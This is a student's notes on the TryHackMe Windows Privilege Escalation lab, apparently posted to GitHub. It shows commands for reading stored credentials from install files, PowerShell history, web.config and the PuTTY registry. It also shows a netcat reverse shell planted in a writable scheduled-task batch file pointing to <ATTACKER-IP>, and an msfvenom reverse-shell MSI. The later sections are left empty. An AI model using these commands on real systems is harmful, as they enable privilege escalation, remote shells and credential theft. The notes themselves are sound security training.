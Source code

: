 # TRYHACKME : Windows Privilege Escalation

> Gaining access to different accounts can be as simple as finding credentials in text files or spreadsheets left unsecured by some careless user, but that won't always be the case. Depending on the situation, we might need to abuse some of the following weaknesses:
> - Misconfigurations on Windows services or scheduled tasks
> - Excessive privileges assigned to our account
> - Vulnerable software
> - Missing Windows security patches

## Windows User
| User Type | Privileges |
|---|---|
| Administrator | -> have the most privileges -> can change any system configuration parameter & access any file in the system |
| Standard Users | -> can access the computer but only perform limited tasks -> these users can not make permanent or essential changes to the system and are limited to their files |

| Special Built-in Accounts | |
|---|---|
| SYSTEM / LocalSystem | -> account used by the operating system to perform internal tasks -> has full access to all files and resources available on the host -> has higher privileges than administrators |
| Local Service | -> default account -> minimum privileges -> uses anonymous connections over the network |
| Network Service | -> default account -> minimum privileges -> use the computer credentials to authenticate through the network |

<details markdown=1>
<summary><h2> 1. Harvesting Passwords from Usual Spots </h2></summary>
  
> This task will present some known places to look for passwords on a Windows system.
>
> Start the target machine. If using 
>
>> Username: `thm-unpriv` Password: `Password321`
>
> # A. Unattended Windows Installations
> When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network.
> 
>> These kinds of installations are referred to as unattended installations as they don't require user interaction.
>
> Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:
>```
>    C:\Unattend.xml
>    C:\Windows\Panther\Unattend.xml
>    C:\Windows\Panther\Unattend\Unattend.xml
>    C:\Windows\system32\sysprep.inf
>    C:\Windows\system32\sysprep\sysprep.xml
> ```
>
> In these type of files, you might encounter credentials such as:
> ```
>  <Credentials>
>     <Username>Administrator</Username>
>     <Domain>thm.local</Domain>
>     <Password>MyPassword123</Password>
>  </Credentials>
> ```
> ## TARGET MACHINE:
>> ```
>> more C:\Unattend.xml => (cannot access file / file not found)
>> more C:\Windows\Panther\Unattend.xml => (cannot access file / file not found)
>> dir C:\Windows\Panther\Unattend => (empty folder)
>> more C:\Windows\system32\sysprep.inf => (cannot access file / file not found)
>> dir C:\Windows\system32\sysprep
>>       <DIR> ActionFiles
>>       <DIR> en-us
>>       <DIR> Panther
>>       sysprep.exe
>> more C:\Windows\system32\sysprep\sysprep.xml => (cannot access file / file not found)
>> ```
>> 
> 
> # B. Powershell History
> All commands run using Powershell gets stored into a file that keeps a memory of past commands.
>
>> It can later be retrieved by using the following command from a `cmd.exe` prompt (it won't work in Powershell; in order to read the file from Powershell, replace `%userprofile%` into `$Env:userprofile`)
>
> ```
> type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
> ```
>
> ## TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
>> ls
>> whoami
>> whoami /priv
>> whoami /group
>> whoami /groups
>> cmdkey /?
>> cmdkey /add:thmdc.local /user:julia.jones /pass:ZuperCkretPa5z        // WAHH CREDENTIALS!!!
>> cmdkey /list
>> cmdkey /delete:thmdc.local
>> cmdkey /list
>> runas /?
>> ```
>
> # C. Saved Windows Credentials
> Windows allows us to use other users' credentials.
>
> The command below will list saved credentials:
> ```
> cmdkey /list
> ```
>
> Regardless of not seeing actual passwords, credentials alone are worth trying. Use them with the `runas` command and the `/savecrad` option:
> ```
> runas /savecred /user:admin cmd.exe
> ```
>
> ## TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>cmdkey /list
>>
>> Currently stored credentials:
>>
>>     Target: Domain:interactive=WPRIVESC1\mike.katz
>>     Type: Domain Password
>>     User: WPRIVESC1\mike.katz
>> 
>> C:\Users\thm-unpriv>runas /savecred /user:mike.katz cmd.exe
>> Attempting to start cmd.exe as user "WPRIVESC1\mike.katz" ...
>>
>> (opens another cmd terminal)
>>
>> C:\Windows\system32>whoami
>> wprivesc1\mike.katz
>> C:\Windows\system32>more C:\Users\mike.katz\Desktop\flag.txt
>> // FLAG ANSWER
>> ```
>
> # D. IIS Configuration
> Internet Information Services (IIS) is the default web server on Windows installations.
>
>> IIS websites' configuration is stored in a file called `web.config` and can store passwords for databases or configured authentication mechanisms.
>
> Depending on the installed version, `web.config` can be found on ff locations:
>``` 
>    C:\inetpub\wwwroot\web.config
>    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
>```
> 
> To quickly find database connection strings on the file:
> ```
> type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
> ```
> ## TARGET MACHINE
>> ```
>> C:\Users\thm-unpriv> more C:\inetpub\wwwroot\web.config => (cannot access file / file not found)
>> C:\Users\thm-unpriv> type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
>>                 <add connectionStringName="LocalSqlServer" maxEventDetailsLength="1073741823" buffer="false"
>> bufferMode="Notification" name="SqlWebEventProvider"
>> type="System.Web.Management.SqlWebEventProvider,System.Web,Version=4.0.0.0,Culture=neutral,PublicKeyToken=b03f5f7f11d50a3a" />
>>                     <add connectionStringName="LocalSqlServer" name="AspNetSqlPersonalizationProvider"
>> type="System.Web.UI.WebControls.WebParts.SqlPersonalizationProvider, System.Web, Version=4.0.0.0, Culture=neutral,
>> PublicKeyToken=b03f5f7f11d50a3a" />
>>     <connectionStrings>
>>         <add connectionString="Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=098n0x35skjD3" name="THM-DB" />  // WAHH CREDENTIALS !!!
>> </connectionStrings>
>> ```
>
> # E. Retrieve Credentials from Software: PuTTY
> **PuTTY** is an SSH client commonly found on Windows systems. It is created by Simon Tatham (his name is part of the path, not the username to retrieve password).
>
> Users can store sessions (IP, user, and other configurations) instead of having to specify a connection's parameters every single time. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.
>
> To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword w/ the ff command:
> ```
> reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
> ```
> Stored proxy username should also be visible after running the command above.
>
> # TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
>> HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\My%20ssh%20server
>> 
>>     ProxyExcludeList    REG_SZ
>>     ProxyDNS    REG_DWORD    0x1
>>     ProxyLocalhost    REG_DWORD    0x0
>>     ProxyMethod    REG_DWORD    0x0
>>     ProxyHost    REG_SZ    proxy
>>     ProxyPort    REG_DWORD    0x50
>>     ProxyUsername    REG_SZ    thom.smith
>>     ProxyPassword    REG_SZ    CoolPass2021    // WAHH CREDENTIALS !!!
>>     ProxyTelnetCommand    REG_SZ    connect %host %port\n
>>     ProxyLogToTerm    REG_DWORD    0x1
>>
>> End of search: 10 match(es) found.
>> ```
>>
</details>

<details>
<summary><h2> 2. Other Quick Wins </h2></summary>
  
> Privilege escalation is not always a challenge.
>
> Some misconfigurations can allow you to obtain higher privileged user access and, in some cases, even administrator access.
>
> # A. Scheduled Tasks
> Some scheduled task might either lost its binary or it's using a binary you can modify.
>
> Scheduled tasks can be listed from the command line using the `schtasks` command without any options.
>
> To retrieve more detailed information about any of the services you can type
> ```
> C:\> schtasks /query /tn vulntask /fo list /v
> Folder: \
> HostName:                             THM-PC1
> TaskName:                             \vulntask
> Task To Run:                          C:\tasks\schtask.bat
> Run As User:                          taskusr1
> ```
> ### Two Important Parameters:
>> - **Task to Run** = indicates what gets executed by the scheduled task
>> - **Run As User** = shows the user that will be used to execute the task
>
> If modifiable, we can control what gets executed by the taskuser1, resulting in a simple privilege escalation.
> 
> Use `icacls` to check permissions on the executable:
> ```
> C:\> icacls c:\tasks\schtask.bat
> c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
>                     BUILTIN\Administrators:(I)(F)
>                     BUILTIN\Users:(I)(F)
> ```
> The **BUILTIN/Users** group has full access (F) over the task's binary. That means we can modify the .bat file and insert any payloads we like.
>
> ## ATTACKER MACHINE:
>> ```
>> root@ip-10-10-107-180:~# nc -lvp 4444
>> ```
>
> ## TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>echo c:\tools\nc64.exe -e cmd.exe <ATTACKER-IP> 4444 > C:\tasks\schtask.bat
>>
>> C:\Users\thm-unpriv>schtasks /run /tn vulntask
>> SUCCESS: Attempted to run the scheduled task "vulntask".
>> ```
>
> ## ATTACKER MACHINE:
>> ```
>> root@ip-10-10-107-180:~# nc -lvp 4444
>> Listening on 0.0.0.0 4444
>> Connection received on 10.10.89.191 49907
>> Microsoft Windows [Version 10.0.17763.1821]
>> (c) 2018 Microsoft Corporation. All rights reserved.
>>
>> C:\Windows\system32>whoami
>> wprivesc1\taskusr1
>>
>> C:\Windows\system32>more C:\Users\taskuser1\Desktop\flag.txt
>> // RETRIEVE FLAG
>> ```
>
> # B. AlwaysInstallElevated
> Windows installer files (.msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it.
>
> However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.
>
>> **NOTE:** The AlwaysInstallElevated method won't work on this room's machine and it's included as information only.
> 
> This method required two registry values to be set. Otherwise, exploitation will not be possible. You can query these from the command line using the commands below:
>> ```
>> C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
>> C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
>> ```
>
> After setting the two, you can generate a malicious .msi file using `msfvenom`, as seen below:
> ```
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
> ```
> As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:
> ```
> C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
> ```
  
</details>

<details> 
<summary><h2> 3. Abusing Service Misconfigurations </h2></summary>

> # A. Windows Services
> Window servies are managed by the **Service Control Manager (SCM)**. Its in charge of managing the state of service as needed, checking the current status of any given service and generally providing a way to configure services.
> 
>> Each service will have associated executable which will be run by SCM whenever a service is started.
>
> Service executables implement _special functions_ to be able to communicate with the SCM. Therefore, not any executable can be started as a service succesfully.
>
>> Each service also specifies the **user account** under which the service will run.
>
> To check the structure of a service, let's check as an example the `apphostsvc` service configuration with the `sc qc` command:
> 
> ### TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>sc qc apphostsvc
>> [SC] QueryServiceConfig SUCCESS
>>
>> SERVICE_NAME: apphostsvc
>>         TYPE               : 20  WIN32_SHARE_PROCESS\
>>         START_TYPE         : 2   AUTO_START
>>         ERROR_CONTROL      : 1   NORMAL
>>         BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k apphost
>>         LOAD_ORDER_GROUP   :        TAG                : 0
>>         DISPLAY_NAME       : Application Host Helper Service
>>         DEPENDENCIES       :
>>         SERVICE_START_NAME : localSystem
>> ```
> Here we can see the _associated executable_ is specified throught the **BINARY_PATH_NAME** parameter, and the _account used_ to urn the service is shown on the **SERVICE_START_NAME** parameter.
>
>> Services have a **Discretionary Access Control List (DACL)**, which indicates _who has permission_ to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges.
>
> DACL can be seen from **Process Hacker** on THM's target machine's desktop. Then click on Services Tab > AppHOstSvc > Security Tab. You'll see the group or user names and their permissions.
>
> While all the services configuration are stored on the **Registry Editor** under `HKLM\SYSTEM\CurrentControlSet\Services\AppHostSvc`
>
>> A **subkey** exist for every service in the system. We can see the associated executable on the **ImagePath** value and the account used to start the service on the **ObjectName** value. If a DACL has been configured for the service, it will be stored in a subkey called **Security**.
>
> # B. Insecure Permissions on Service Executable
>
> If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.
>
> To understand how this works, let's look at a vulnerability found on **Splinterware System Scheduler**. To start, we will query the service configuration using sc:
>
> ### TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>sc qc WindowsScheduler
>> [SC] QueryServiceConfig SUCCESS
>>
>> SERVICE_NAME: WindowsScheduler
>>         TYPE               : 10  WIN32_OWN_PROCESS
>>         START_TYPE         : 2   AUTO_START
>>         ERROR_CONTROL      : 0   IGNORE
>>         BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
>>         LOAD_ORDER_GROUP   :
>>         TAG                : 0
>>         DISPLAY_NAME       : System Scheduler Service
>>         DEPENDENCIES       :
>>         SERVICE_START_NAME : .\svcusr1
>> ```
 
> We can see that the service installed by the vulnerable software runs as **svcuser1** and the executable associated with the service is in `C:\Progra~2\System~1\WService.exe`. We then proceed to check the permissions on the executable:
>
> ### TARGET MACHINE:
>> ```
>> C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
>> C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
>>                                   NT AUTHORITY\SYSTEM:(I)(F)
>>                                   BUILTIN\Administrators:(I)(F)
>>                                   BUILTIN\Users:(I)(RX)
>>                                   APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
>>                                   APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
>>
>> Successfully processed 1 files; Failed processing 0 files
>> ```
> And here we have something interesting. The Everyone group has modify permissions (M) on the service's executable. This means we can simply overwrite it with any payload of our preference, and the service will execute it with the privileges of the configured user account.
>
> ### ATTACKER MACHINE:
>> ```
>> 
>> ```
> # C. Unquoted Service Paths
> # D. Insecure Service Permissions
> 

</details>


